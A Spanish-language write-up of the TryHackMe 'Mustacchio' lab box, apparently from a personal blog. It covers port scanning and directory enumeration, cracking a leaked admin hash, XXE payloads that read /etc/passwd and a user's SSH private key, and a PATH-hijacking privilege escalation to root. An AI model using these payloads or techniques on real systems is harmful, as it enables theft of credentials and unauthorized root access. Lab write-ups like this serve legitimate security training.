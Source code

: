 ```yaml
---
title: "Mustacchio Writeup - Try-Hack-Me"
date: 2023-09-16
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets\img\imagenes\Mustacchio.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Mustacchio banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap 

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 20:34 EST
Nmap scan report for 10.10.163.196
Host is up (0.23s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.04 seconds
```
tenemos un archivo robots.txt
### Ports: 22/ssh - 80/http - 8765/http 

### Enumeracion del puerto 80
![img](/assets/img/imagenes/Pasted image 20231211214708.png)

### parece que no hay mucha cosa interesante veamos el archivo robots.txt
![img](/assets/img/imagenes/Pasted image 20231211215451.png)
parece que el archivo esta vacio

###  gobuster
![img](/assets/img/imagenes/Pasted image 20231211215631.png)
gobuster nos certifica que existe el archivo robots.txt aparte de esto de todos los subdirectorios el mas llamativo es custom

### subdirectorio custom/js
![img](/assets/img/imagenes/Pasted image 20231211215353.png)

### el archivo users.bak lo podemos descargar 
![img](/assets/img/imagenes/Pasted image 20231211220112.png)
parece que tenemos un usuario admin con un hash asi que vamos a decodearlo

### usamos hashid para identificar el hash
![img](/assets/img/imagenes/Pasted image 20231211220355.png)
buscamos un decoder de hash SHA-1

### tenemos un usuario y ahora una pass
![img](/assets/img/imagenes/Pasted image 20231211220902.png)

### iniciamos session cn el panel de login
![img](/assets/img/imagenes/Pasted image 20231211222507.png)

### parece que el panel de comandos no es vulnerable a reverse shell ni inyeccion sql
### miramos el codigo fuente
![img](/assets/img/imagenes/Pasted image 20231211222616.png)

### parece que aqui nos dejan una pista asi que vamos a mirar este subdirectorio
### se nos descarga un archivo automaticamente y lo abrimos con strings 
parece que tenemos un archivo xml
![img](/assets/img/imagenes/Pasted image 20231211222919.png)

### xml inyection 
usaremos esta xml inyeccion para intentar mirar el etc/passwd

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```

![img](/assets/img/imagenes/Pasted image 20231212001031.png)
### perfecto tenemos respuesta. vemos que existe un usuario llamado barry. vamos a intentar consegui su id_rsa modificando la ruta en el xml

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```

### tenemos la id_rsa de barry
![img](/assets/img/imagenes/Pasted image 20231212001934.png)
para poder copiar la id_rsa de una mejor podemos hacer Ctrl + u para ver el codigo fuente
![img](/assets/img/imagenes/Pasted image 20231212002209.png)

### puerto 22/ssh
![[Pasted image 20231212002530.png]]

### intentamos conectarnos por ssh pero necesitamos otorgar permisos de lectura. esto lo hacemos con el comando chmod luego intentamos ingresar pero al parecer la id_rsa necesita una clave asi que vamos a conseguirla
![img](/assets/img/imagenes/Pasted image 20231212002803.png)

### con estos pasos podemos conseguir el hash de la id_rsa y lo enviamos a un archivo llamado id_hash como se ve en la imagen, hacemos un cat para asegurarnos que el archivo id_hash contenga el hash
### usaremos la herramienta john para decodear el hash
![img](/assets/img/imagenes/Pasted image 20231212003052.png)

### ahora tenemos la palabra clave que necesita la id_rsa asi que intentemos entrar por ssh de nuevo
### Port 22/ssh
![img](/assets/img/imagenes/Pasted image 20231212003433.png)
perfecto estamos dentro y somos el usuario barry

### Escalada de privilegios
navegando por la maquina nos hemos encontrado otro usuario el cual tiene un archivo muy interesante, si hacemos cat no podemos ver nada pero si hacemos strings.....
![img](/assets/img/imagenes/Pasted image 20231212003910.png)

### miramos los permisos del archivo
el archivo parece pertenecer al usuario root pero (otros) tienen permisos de ejecución 
![img](/assets/img/imagenes/Pasted image 20231212004140.png)

### vamos a aprovecharnos de la variable tail para poder escalar privilegios
primero vamos al directorio /tmp vamos a crear un nuevo archivo que se llame tail y vamos a cambiar los permisos de la bash con el siguiente comando
![img](/assets/img/imagenes/Pasted image 20231212010043.png)
guardamos el archivo

### $PATH hijacking

```python
export PATH=/tmp:$PATH
```
agregamos la ruta en la que se encuentra nuestro archivo para que el $PATH la tome en cuenta cuando haga un llamado
![img](/assets/img/imagenes/Pasted image 20231212010450.png)

### luego hacemos echo $PATH para verificar y si todo esta bien hemos cambiado los permisos a la bash. asi que si hacemos bash -p deberiamos tener una bash como el usuario root
![img](/assets/img/imagenes/Pasted image 20231212011005.png)

### WE ARE ROOT
